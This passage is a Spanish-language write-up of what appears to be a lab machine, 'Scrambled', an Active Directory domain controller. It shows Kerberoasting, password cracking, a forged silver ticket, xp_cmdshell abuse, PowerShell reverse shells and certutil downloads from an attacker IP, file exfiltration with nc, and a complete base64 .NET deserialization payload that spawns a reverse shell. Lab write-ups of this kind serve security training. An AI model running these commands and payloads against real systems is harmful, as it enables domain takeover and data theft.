| YlTWJX5FNiRjLTR/KqXv0CwizH5f6wP5AGUw/C5nevVd/RcP7MS58HHlWo1YxEiv
| Z87Jm6l0goimYnj6Ugg8Neg0ilo05qhztg0NLbFoN9GbrmJ6uiM4ZkNHgGt+LGQT
| 9rUieLrMJonDPDQVPJaOVlw2M96sGv5DDGgO+CPOLAXbCT1SSVSqnLHztRm6Ww5c
| 2kA765T/bXPYTlS+zBWkWv2OCj3W1dxQC+lFhLQtsXs=
|_-----END CERTIFICATE-----
4411/tcp  open  found?        syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49686/tcp open  msrpc         syn-ack Microsoft Windows RPC
49730/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4411-TCP:V=7.94SVN%I=7%D=3/13%Time=65F21B77%P=x86_64-pc-linux-gnu%r
SF:(NULL,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(GenericLines,1D,"SCRAMB
SF:LECORP_ORDERS_V1\.0\.3;\r\n")%r(GetRequest,35,"SCRAMBLECORP_ORDERS_V1\.
SF:0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(HTTPOptions,35,"SCRAMBLECORP_OR
SF:DERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RTSPRequest,35,"SCRAMB
SF:LECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RPCCheck,1D,"
SF:SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(DNSVersionBindReqTCP,1D,"SCRAMBLE
SF:CORP_ORDERS_V1\.0\.3;\r\n")%r(DNSStatusRequestTCP,1D,"SCRAMBLECORP_ORDE
SF:RS_V1\.0\.3;\r\n")%r(Help,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UN
SF:KNOWN_COMMAND;\r\n")%r(SSLSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\
SF:r\n")%r(TerminalServerCookie,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(
SF:TLSSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Kerberos,1D,"SC
SF:RAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SMBProgNeg,1D,"SCRAMBLECORP_ORDERS_
SF:V1\.0\.3;\r\n")%r(X11Probe,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Fo
SF:urOhFourRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMM
SF:AND;\r\n")%r(LPDString,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNO
SF:WN_COMMAND;\r\n")%r(LDAPSearchReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n
SF:")%r(LDAPBindReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SIPOptions,3
SF:5,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(LAND
SF:esk-RC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TerminalServer,1D,"SCR
SF:AMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(NCP,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3
SF:;\r\n")%r(NotesRPC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(JavaRMI,1D
SF:,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(WMSRequest,1D,"SCRAMBLECORP_ORD
SF:ERS_V1\.0\.3;\r\n")%r(oracle-tns,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n"
SF:)%r(ms-sql-s,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(afp,1D,"SCRAMBLE
SF:CORP_ORDERS_V1\.0\.3;\r\n")%r(giop,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\
SF:n");
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 17h34m43s, deviation: 0s, median: 17h34m43s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-03-14T15:10:01
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 42300/tcp): CLEAN (Timeout)
|   Check 2 (port 14124/tcp): CLEAN (Timeout)
|   Check 3 (port 31813/udp): CLEAN (Timeout)
|   Check 4 (port 25661/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

## Puerto 80

En el sitio web encontraremos con un sitio web que tiene tres apartados: `Home`, `Reports` y `IY Services` 


Revisando `IT Services` encontraremos con la siguiente información que nos dice que el servicio `NTLM` se encuentra deshabilitado


En otro nos informa que al restablecer nuestra contraseña podemos loegearnos con el el nombre de usuario haciendo de contraseña


Luego encontraremos con un usuario que es `ksimpson`


## Enumeración por ldap

Enumerando con `ldap` encontraremos con el `name services`

```python
❯ ldapsearch -x -s base namingcontexts -H ldap://10.10.11.168
```


```python
❯ ldapsearch -x -s base 'dc=scrm,dc=local' -H ldap://10.10.11.168
```



## Enumeración con SmbClient

Teniendo en cuenta las credenciales de `ksimpson`, haremos uso de [impacket-smclient.py](https://tools.thehacker.recipes/impacket/examples/smbclient.py) para seguir enumerando los recursos compartidos.


Al intentar acceder a los recursos compartidos tenemos un error, esto es debido a que el servicio `NTLM` esta deshabilitado. Tenemos que usar la autenticación por kerberos con el parámetro `-k`


Luego de acceder a los recursos compartidos, encontraremos con un archivo `pdf` que se hace uso de `kerberos`  




# Explotación 
## Kerberoasting attack

Teniendo en cuento el anterior documento y las credenciales de `ksimpson`  


Vemos que el usuario `sqlsvc` es kerberoasteable y lo que haremos será obtener el hash

```python
❯ impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host 'dc1.scrm.local' -request
```


Encontraremos con un usuario que es `kerberoasteable` por lo que procederemos a crackear el hash que encontramos

```python
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Pegasus60        (?)     
1g 0:00:00:07 DONE (2024-03-20 21:55) 0.1321g/s 1417Kp/s 1417Kc/s 1417KC/s Penrose..Pearce
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
    
```

Luego de crackear con la herramienta `john` tendremos las siguientes credenciales:

```python
sqlsvc : Pegasus60
```

## SQL - Server 

Luego de obtener las credenciales lo que intentaremos ingresar a la base de datos


Vemos que tenemos un error debido a que el servicio `NTLM` esta deshabilitado. Haciendo uso de las credenciales y generando el TGT intentaremos ingresar al servicio `sql server`

### sqlsvc

```python
❯ impacket-getTGT scrm.local/sqlsvc:Pegasus60
❯ export KRB5CCNAME=sqlsvc.ccache
❯ impacket-mssqlclient dc1.scrm.local -k
```


### ksimpson

```python
❯ impacket-getTGT scrm.local/ksimpson:ksimpson
❯ export KRB5CCNAME=ksimpson.ccache
❯ impacket-mssqlclient dc1.scrm.local -k
```


En ambos intentos serán fallidos
## Silver Ticket Attack

Ahora lo que haremos será un `Silver Ticket Attack`, pero antes debemos de entender como funciona la autenticación de kerberos 


Para realizar este ataque necesitaremos el hash `NTLM`, `dimain SID` y el `SPN`
### NT hash

Haciendo uso de la credencial de sqlsvc generaremos el hash `NTLM` en [https://codebeautify.org/ntlm-hash-generator](https://codebeautify.org/ntlm-hash-generator)

```python
b999a16500b87d17ec7f2e2a68778f05
```

### Domain SID

Ahora haciendo uso de `getPac` podremos obtener el `domain SID` del usuario administrador

```python
❯ impacket-getPac scrm.local/sqlsvc:Pegasus60 -targetUser administrator
```


```python
S-1-5-21-2743207045-1827831105-2542523200
```

### SPN

Cuando usamos `GetUsersSPNs` vimos el `SPN` Service Principal Name

```python
❯ impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local
```


Tenemos que el `SPN` es: 

```python
MSSQLSvc/dc1.scrm.local 
```

### TGS

Ahora que tenemos todo y haciendo uso de `ticketer` generaremos el `TGS`, así debemos de obtener un archivo `administrator.cache` que haremos uso para autenticarnos con el servicio de SQL Server

```python
❯ impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -dc-ip dc1.crm.local -nthash b999a16500b87d17ec7f2e2a68778f05 Administrator -domain scrm.local
```


Ahora usaremos la variable `KRB5CCNAME` 

```python
❯ export KRB5CCNAME=Administrator.ccache 
```

Una vez definida la variable, usaremos `msssqlclient` para autenticarnos

```python
❯ impacket-mssqlclient dc1.scrm.local -k
```


## Sql Server - TGS

Haciendo uso del sitio web de hacktricks:
- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

Enumeraremos la base de datos con los siguientes comandos

```python
# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

#One liner
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```

Vemos que podemos ejecutar comandos dentro de `Sql Server` 


Para obtener una revershell seguiremos los siguientes pasos:

1. Configuración de `Invoke-PowerShellTcp.ps1` :
	
- [https://github.com/samratashok/nishang/tree/master](https://github.com/samratashok/nishang/tree/master)


2. Iniciamos un servidor web con Python en el directorio donde descargamos `Invoke-PowerShellTcp.ps1` 

```python
❯ python3 -m http.server 80
```

3. Ponemos a la escucha con `ncat`

```python
❯ rlwrap ncat -lnvp 443
```

4. Ahora ejecutamos el comando en el `Sql Server`

```python
SQL (SCRM\administrator  dbo@master)> EXEC xp_cmdshell "powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.16.7/Invoke-PowerShellTcp.ps1')"
```

Si seguimos los pasos deberíamos de obtener una revershell.

# Escalada de privilegios 

## Usuario : miscsvc


Luego de obtener la revershell, seguiremos enumerando la base de datos

Enumeramos las bases de datos que se tiene en el `sql server`

```python
SQL (SCRM\administrator  dbo@master)> select name from master.dbo.sysdatabases;
```


Enumeramos la base de datos `ScarmbleHR` y encontraremos la tabla `UserImport`

```python
SQL (SCRM\administrator  dbo@master)> use ScrambleHR;
SQL (SCRM\administrator  dbo@ScrambleHR)> select * from ScrambleHR.information_schema.tables;
```



En la tabla `UserImport` encontraremos un usuario y contraseña.

```python
SQL (SCRM\administrator  dbo@ScrambleHR)> select * from UserImport;
```




```python
MiscSvc  : ScrambledEggs9900 
```

Teniendo estas credenciales y haciendo uso de `RunasCs` para obtener un shell con el usuario `MiscSvc`

- [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

Para usar `RunasCs.exe` subiremos este a la maquina victima con la herramienta de `certutil`

```python
PS C:\users\sqlsvc\Files> certutil -urlcache -f 'http://10.10.16.7/RunasCs.exe' RunasCs.exe
```

Ahora ejecutamos `RunasCs.exe` haciendo uso de las credenciales del usuario `miscsvc`

```python
PS C:\users\sqlsvc\Files> .\RunasCs.exe miscsvc ScrambledEggs9900 cmd.exe -r 10.10.16.7:443 -l 3
```

## Usuario - miscsvc



Luego de obtener una shell y seguir enumerando encontraremos un `.exe` y una `dll`


Descargaremos a nuestra maquina atacante para analizarlo mejor.

- Subimos `nc.exe` para hacer uso y compartirlo a nuestra maquina atacante.

```python
c:\Users\miscsvc\files>certutil -urlcache -f http://10.10.16.7/nc.exe nc.exe
```

#### ScrambleClient.exe

- Maquina victima: 

```python
c:\Users\miscsvc\files>.\nc.exe -w 3 10.10.16.7 8888 < ScrambleClient.exe
                       .\nc.exe -w 3 10.10.16.7 8888 < ScrambleClient.exe
.\nc.exe -w 3 10.10.16.7 8888 < ScrambleClient.exe
```

- Maquina atacante: 

```python
❯ nc -lnvp 8888 > ScrambleClient.exe
```

####  ScrambleLib.dll

- Maquina victima

```python
c:\Users\miscsvc\files>.\nc.exe -w 3 10.10.16.7 8888 < ScrambleLib.dll
                       .\nc.exe -w 3 10.10.16.7 8888 < ScrambleLib.dll
.\nc.exe -w 3 10.10.16.7 8888 < ScrambleLib.dll
```

- Maquina atacante

```python
❯ nc -lnvp 8888 > ScrambleLib.dll
```

## dnSpy

Haciendo uso de `dnspy` podremos hacer reversing del binario
- [https://github.com/dnSpy/dnSpy](https://github.com/dnSpy/dnSpy)


Enumerando encontraremos y vemos que al iniciar sesión o intentar autenticarnos con el servicio se genera un archivo log.


Vemos que hace uso de Deserialización en base64


Además, vemos que haciendo uso del usuario `scrmdev` podremos autenticarnos y lograr ingresar


Haciendo uso del usuario podremos ingresar.


Vemos que podemos generar una nueva orden y generaremos una.


Como vemos en el código del binario vimos que genera un archivo `ScrambleDebugLog.txt` el cual revisaremos. Encontramos un apartado donde esta serializado en base64 y nos da una idea de poder explotar de esto.

```python
.
.
.
22/03/2024 10:48:12 PM UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAABMQYEAAAABDEwMDAGBQAAAApSIEdvb2RoYW5kCQYAAAAAgCH/qknaCAAAAAAAQI9ABAYAAAB/U3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuTGlzdGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQMAAAAGX2l0ZW1zBV9zaXplCF92ZXJzaW9uBgAACAgJBwAAAAAAAAAAAAAAEQcAAAAAAAAACw==
.
.
.
```

Haciendo uso de `ysoserial.net` podremos generar el contenido y así poder explotar el servicio
- [https://github.com/pwntester/ysoserial.net?tab=readme-ov-file#generate-a-calcexe-payload-for-binaryformatter-using-psobject-gadget](https://github.com/pwntester/ysoserial.net?tab=readme-ov-file#generate-a-calcexe-payload-for-binaryformatter-using-psobject-gadget)

```python
C:\FilesExplotation\ysoserial\Release>.\ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "c:\Users\miscsvc\files\nc.exe -e cmd.exe 10.10.16.7 443" -t
```


Luego generaremos el payload para hacer uso, pero antes debemos de poner un `UPLOAD_ORDER;` como vimos en el archivo log

```python
UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFsLldpbmRvd3NJZGVudGl0eQEAAAAkU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LmFjdG9yAQYCAAAAiApBQUVBQUFELy8vLy9BUUFBQUFBQUFBQU1BZ0FBQUY1TmFXTnliM052Wm5RdVVHOTNaWEpUYUdWc2JDNUZaR2wwYjNJc0lGWmxjbk5wYjI0OU15NHdMakF1TUN3Z1EzVnNkSFZ5WlQxdVpYVjBjbUZzTENCUWRXSnNhV05MWlhsVWIydGxiajB6TVdKbU16ZzFObUZrTXpZMFpUTTFCUUVBQUFCQ1RXbGpjbTl6YjJaMExsWnBjM1ZoYkZOMGRXUnBieTVVWlhoMExrWnZjbTFoZEhScGJtY3VWR1Y0ZEVadmNtMWhkSFJwYm1kU2RXNVFjbTl3WlhKMGFXVnpBUUFBQUE5R2IzSmxaM0p2ZFc1a1FuSjFjMmdCQWdBQUFBWURBQUFBNWdVOFAzaHRiQ0IyWlhKemFXOXVQU0l4TGpBaUlHVnVZMjlrYVc1blBTSjFkR1l0TVRZaVB6NE5DanhQWW1wbFkzUkVZWFJoVUhKdmRtbGtaWElnVFdWMGFHOWtUbUZ0WlQwaVUzUmhjblFpSUVselNXNXBkR2xoYkV4dllXUkZibUZpYkdWa1BTSkdZV3h6WlNJZ2VHMXNibk05SW1oMGRIQTZMeTl6WTJobGJXRnpMbTFwWTNKdmMyOW1kQzVqYjIwdmQybHVabmd2TWpBd05pOTRZVzFzTDNCeVpYTmxiblJoZEdsdmJpSWdlRzFzYm5NNmMyUTlJbU5zY2kxdVlXMWxjM0JoWTJVNlUzbHpkR1Z0TGtScFlXZHViM04wYVdOek8yRnpjMlZ0WW14NVBWTjVjM1JsYlNJZ2VHMXNibk02ZUQwaWFIUjBjRG92TDNOamFHVnRZWE11YldsamNtOXpiMlowTG1OdmJTOTNhVzVtZUM4eU1EQTJMM2hoYld3aVBnMEtJQ0E4VDJKcVpXTjBSR0YwWVZCeWIzWnBaR1Z5TGs5aWFtVmpkRWx1YzNSaGJtTmxQZzBLSUNBZ0lEeHpaRHBRY205alpYTnpQZzBLSUNBZ0lDQWdQSE5rT2xCeWIyTmxjM011VTNSaGNuUkpibVp2UGcwS0lDQWdJQ0FnSUNBOGMyUTZVSEp2WTJWemMxTjBZWEowU1c1bWJ5QkJjbWQxYldWdWRITTlJaTlqSUdNNlhGVnpaWEp6WEcxcGMyTnpkbU5jWm1sc1pYTmNibU11WlhobElDMWxJR050WkM1bGVHVWdNVEF1TVRBdU1UWXVOeUEwTkRNaUlGTjBZVzVrWVhKa1JYSnliM0pGYm1OdlpHbHVaejBpZTNnNlRuVnNiSDBpSUZOMFlXNWtZWEprVDNWMGNIVjBSVzVqYjJScGJtYzlJbnQ0T2s1MWJHeDlJaUJWYzJWeVRtRnRaVDBpSWlCUVlYTnpkMjl5WkQwaWUzZzZUblZzYkgwaUlFUnZiV0ZwYmowaUlpQk1iMkZrVlhObGNsQnliMlpwYkdVOUlrWmhiSE5sSWlCR2FXeGxUbUZ0WlQwaVkyMWtJaUF2UGcwS0lDQWdJQ0FnUEM5elpEcFFjbTlqWlhOekxsTjBZWEowU1c1bWJ6NE5DaUFnSUNBOEwzTmtPbEJ5YjJObGMzTStEUW9nSUR3dlQySnFaV04wUkdGMFlWQnliM1pwWkdWeUxrOWlhbVZqZEVsdWMzUmhibU5sUGcwS1BDOVBZbXBsWTNSRVlYUmhVSEp2ZG1sa1pYSStDdz09Cw==
```

- Ingresamos al servicio con telnet

```python
❯ telnet 10.10.11.168 4411
```

- Insertamos el payload 


## Usuario - Administrator

Antes de enviar el payload debemos de ponernos a la escucha y debemos de obtener una shell con el usuario administrator.

```python
❯ rlwrap ncat -lvnp 443
```


